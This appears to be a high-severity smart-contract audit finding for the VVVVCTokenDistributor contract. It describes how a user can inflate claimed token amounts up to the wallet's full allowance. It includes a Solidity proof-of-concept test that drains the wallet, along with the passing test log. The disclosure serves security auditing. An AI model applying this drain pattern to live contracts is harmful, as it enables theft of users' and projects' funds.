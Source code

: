 Ripe Ginger Starfish

High

# A malicious user can claim more token since the protocol has enough allowance

## Summary

The `VVVVCTokenDistributor` contract allows users to claim tokens using allowances set by the wallet. Malicious users can exploit the claim function by manipulating the `_params.tokenAmountsToClaim[]` parameter to request more tokens than they are entitled to. Since the contract uses `safeTransferFrom` and relies on sufficient allowances, it does not revert transactions when a malicious user requests an amount exceeding their ownership but within the total allowance.

## Vulnerability detail

The contract `VVVVCTokenDistributor` provides a user for claiming the token from wallet to user. This function mechanism is the wallet approve some allowance to the contract  `VVVVCTokenDistributor`. Afterthat, `VVVVCTokenDistributor` will use `safeTransferFrom` to move funds from wallet to user. 

https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L130-L136

Otherhand, When user perform `claim` function, user has a ability to set the params especially ` _params.tokenAmountsToClaim[]`. In normal case, a user must set the ` _params.tokenAmountsToClaim[]` according to the amount owned. But unnormal case, a malicious user will set this parameter more higher than the amount owned or approximately total allowance from `VVVVCTokenDistributor`. This transaction will not revert since the `VVVVCTokenDistributor` has enough allowance.

## Impact

A malicious user can drain all of funds from the wallet since the `VVVVCTokenDistributor` has allowance from the wallet.

## Poc

```solidity
function testDrainRestOfFunds() public {
        // normal case, a malicious user want to claim his actual funds 
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        // address of wallet that's used
        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        // actual funds from a malicious user
        thisTokenAmountsToClaim[0] = sampleTokenAmountsToClaim[0]; 

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        claimAsUser(sampleKycAddress, claimParams);
        assertTrue(ProjectTokenInstance.balanceOf(sampleKycAddress) == sampleTokenAmountsToClaim[0]);
        console.log("Balance of user after claiming actual funds : ", ProjectTokenInstance.balanceOf(sampleKycAddress));

        // unnormal case, a malicious user can drain the rest of allowance of this contract
        uint256 allowance = ProjectTokenInstance.allowance(
            projectTokenProxyWallets[0],
            address(TokenDistributorInstance));

         // all of allowance from this contract
        thisTokenAmountsToClaim[0] = allowance ;

        // with the same wallet
        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        claimAsUser(sampleKycAddress, claimParams);
        assertTrue(ProjectTokenInstance.balanceOf(sampleKycAddress) == allowance + sampleTokenAmountsToClaim[0]);
        assertGt(allowance, sampleTokenAmountsToClaim[0]);

        console.log("Total of rest allowance : ",  allowance);
        console.log("Total balance of user after claiming all of allowance : ", ProjectTokenInstance.balanceOf(sampleKycAddress));
    }
```

```bash
Ran 1 test for test/vc/VVVVCTokenDistributor.unit.t.sol:VVVVCTokenDistributorUnitTests
[PASS] testDrainRestOfFunds() (gas: 159993)
Logs:
  Balance of user after claiming actual funds :  1111000000000000000000
  Total of rest allowance :  998889000000000000000000
  Total balance of user after claiming all of allowance :  1000000000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.85ms (3.37ms CPU time)
```

